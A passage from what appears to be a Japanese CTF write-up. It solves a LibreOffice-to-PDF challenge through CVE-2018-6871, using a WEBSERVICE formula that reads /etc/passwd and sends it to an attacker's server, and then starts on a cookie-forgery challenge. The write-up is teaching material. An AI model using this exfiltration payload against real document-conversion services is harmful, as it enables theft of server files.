 LibreOffice の Calc で適当な fods ファイルを作成してアップロードすると、確かに PDF に変換して返してくれました。

fods ファイルは XML を使用しています。Web 問で XML といえば XML External Entity (XXE) ということで、fods ファイルに XXE を埋め込んでファイルの読み出しや Server Side Request Forgery (SSRF) ができないか試してみますが、サーバは Internal Server Error を返します。ダメそうです。

関数や計算式を展開してくれないか試してみましょう。実行環境のバージョンが得られる `=INFO("release")` を適当なセルに入力すると、以下のように出力されました。

```
64a0f66915f38c6217de274f0aa8e15618924765
```

これをググってみると、どうやら LibreOffice 6.0.0.3 を使って fods が PDF に変換されていることがわかりました。

`LibreOffice 6.0.0.3 vulnerability` でググってみると、[LibreOffice 公式のセキュリティアドバイザリ](https://ja.libreoffice.org/about-us/security/advisories/)がヒットしました。どうやらこのバージョンには [CVE-2018-6871](https://ja.libreoffice.org/about-us/security/advisories/cve-2018-6871/) という脆弱性が存在しており、`COM.MICROSOFT.WEBSERVICE` という関数にファイルのパスを渡すことでそのファイルが読めるようです。

`=WEBSERVICE("http://(攻撃者のサーバ)?" & ENCODEURL(WEBSERVICE("/etc/passwd")))` で `/etc/passwd` を読めないか試してみましょう。

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
︙
libreoffice_admin:x:1000:1000::/home/libreoffice_admin:/bin/bash
```

読めました! `/etc/passwd` を `/home/libreoffice_admin/flag` に変えるとフラグが得られました。

`fb{wh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful}`

### events (957)
> I heard cookies and string formatting are safe in 2019?
>  
> (URL)

与えられた URL にアクセスするとログインフォームが表示されました。適当なユーザ名とパスワード (`username_desu` / `password_dayo`) で登録してみると、イベントの登録フォームと Admin 向けのページ (`/flag`) へのリンクが表示されました。後者にアクセスすると `You do not seem to be an admin, username_desu!` と表示され、なんとかして `admin` としてログインする (かログインしたことにする) 必要があるようです。

また、以下のような Cookie が発行されていました。

```
user=InVzZXJuYW1lX2Rlc3Ui.XPfk3g.PNtchS5A5LAfQU3XxkYtOatLgj0
events_sesh_cookie=.eJwljjkOwzAMwP7iOYNsyzrymUKSZbRr0kxF_94AnUkC_JTHOvJ8lv19XLmVx2uWvaA6TAkZAmmhS5qq-xSzTiIK0pBTGZsABViigi1AHqwDW6JUZc87mkhIZGuoVay-SDWMqTpzSEDehnnH6Tdkihjcu8YsW7nOPP4z0lr5_gCaVi6c.XPfk3g.AhTuh4O5wvdxlZr99PXNwYggzKk
```

それぞれ、ピリオドで区切った最初の文字列を URL-safe な Base64 としてデコードしてみます。

```
user: "username_desu"
events_sess_cookie: x\x9c%\x8e9\x0e\xc30\x0c\xc0\xfe\xe29\x83l\xcb:\xf2\x99B\x92e\xb4k\xd2LE\xff\xde\x00\x9dI\x02\xfc\x94\xc7:\xf2|\x96\xfd}\\\xb9\x95\xc7k\x96\xbd\xa0:L\t\x19\x02i\xa1K\x9a\xaa\xfb\x14\xb3N"\n\xd2\x90S\x19\x9b\x00\x05X\xa2\x82-@\x1e\xac\x03[\xa2Te\xcf;\x9aHHdk\xa8U\xac\xbeH5\x8c\xa9:sH@\xde\x86y\xc7\xe97d\x8a\x18\xdc\xbb\xc6,[\xb9\xce<\xfe3\xd2Z\xf9\xfe\x00\x9aV.\x9c
```
